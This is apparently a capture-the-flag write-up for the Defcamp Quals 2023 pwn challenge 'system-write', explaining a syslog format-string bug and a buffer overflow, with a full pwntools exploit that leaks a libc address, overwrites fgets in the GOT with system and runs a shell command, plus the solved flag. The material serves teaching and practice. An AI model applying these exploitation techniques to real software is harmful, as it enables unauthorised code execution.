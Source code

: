 ```yaml
---
title: system-write
type: writeup
date: 2023-10-22T09:56:31+03:00
description: Writeup for system-write [Defcamp Quals 2023]
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Wait what? We can write data, but where?

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec syslog-write
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   49 Symbols	  No	0		4		syslog-write
```
We have PIE disabled and Partial RELRO. Partial RELRO might mean that we will overwrite GOT entries.

We decompile the binary and find numerous vulnerabilities. First a buffer overflow is present in the ``main`` function, when we read the "log level":
```c
	printf("Enter the log level (LOG_INFO, LOG_WARNING, LOG_ERR, etc.): ");
	__isoc99_scanf(" %[^\n]",local_222);
```
Sadly, we can't do much with it initially, as the function does not return. Every exit point is covered by ``exit()``.

Another vulnerability that is evident is the fact that our input gets passed directly to ``syslog``. What is great about this is that ``syslog`` uses a format string as its second argument. So we have a format string vulnerability.

```c
	printf("Enter the message to write to syslog: ");
	fgets(local_218,0x200,stdin);
	fgets(local_218,0x200,stdin);
	syslog((int)local_222,local_218);
	closelog();
```

### Solution

So first we obviously have to leak some data. We leak a whole lot of addresses from the stack by passing a bunch of ``"%x"`` to ``syslog``. We manually identify the return for the ``main`` function. We can make our lives easier by passing a bunch of "a" characters to the vulnerable buffer, to create a pattern of "a" characters leading up to the return address.

After leaking and checking in the debugger, we find out the return address for main leads to ``__libc_init_first``. We find the libc version using the [libc database](https://libc.blukat.me/) and we save some offsets to ``system`` from there. In the exploit we next calculate the address for ``system`` and use a classic arbitrary write primitive from the format string vulnerability. We overwrite the address of ``fgets``, found in GOT, two bytes at a time (to avoid long printing times). Now, our next input to fgets will get interpreted as a shell command. But how can we control it now that ``fgets`` is compromised? Easy, we can reuse the buffer overflow from the earlier ``scanf`` to overwrite it with a command. The exploit is below:

```py
#!/usr/bin/env python3

from pwn import *

is_remote = False
target = process("./syslog-write")
#target = remote("34.159.3.30", 31549) 

fgets_gotplt_addr = 0x00404048
fgets_gotplt_addr_next = 0x0040404a

if is_remote:
    system_offset = 0x27060 # from init_first
else:
    system_offset = 159856 # from init_first


# Leak a bunch of addresses
target.sendline(b"1")
target.sendline(b"a" * 0x222)
target.sendline(b"%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x")

if is_remote:
    target.sendline(b"2")
    print(target.recvuntil(b"syslog-write"))
    leak = list(reversed(target.recvline().split()))

    print(leak)
	# Find the return address using the "AAAA" pattern
    for i in range(len(leak)):
        if leak[i] == b"61616161":
            libc_init_first_leak = leak[i-1]
            print(libc_init_first_leak)
            libc_init_first_leak = int(libc_init_first_leak, 16)
            break

else:
	# get the addresses manually on local
	# I had some issues with reading the syslog
    libc_init_first_leak = input()

    print(libc_init_first_leak)
    libc_init_first_leak = int(libc_init_first_leak, 16)
    print(hex(libc_init_first_leak))

# Find system address
system_addr = p64(libc_init_first_leak + system_offset)
print(f"System addr: {hex(libc_init_first_leak + system_offset)}")

# Prepare the bytes to be written
x = int.from_bytes(system_addr[:2], byteorder='little')
y = int.from_bytes(system_addr[2:4], byteorder='little')

print(system_addr)

# You have to make sure the stack is correctly aligned
# and that the parameter access (%11$hn and %12$hn) leads to the correct addresses
# Use a debugger!
payload = "%{}c%11$hn%{}c%12$hnbbbbbbb".format(x, y-x).encode()
print(payload)

# Overwrite fgets with system
target.sendline(b"1")
target.sendline(p64(fgets_gotplt_addr) + p64(fgets_gotplt_addr_next)) # honestly don't remember if this really matters
target.sendline(payload + p64(fgets_gotplt_addr) + p64(fgets_gotplt_addr_next))

# run /bin/cat flag.txt
target.sendline(b"1")
target.sendline(b"A" * 10 + b"/bin/cat flag.txt") # overflow and win

target.interactive()
```

#### Flag

```CTF{61534936dc22499d88206f04c36ccda47290ad4656345033c6c88f06a86a2b92}```
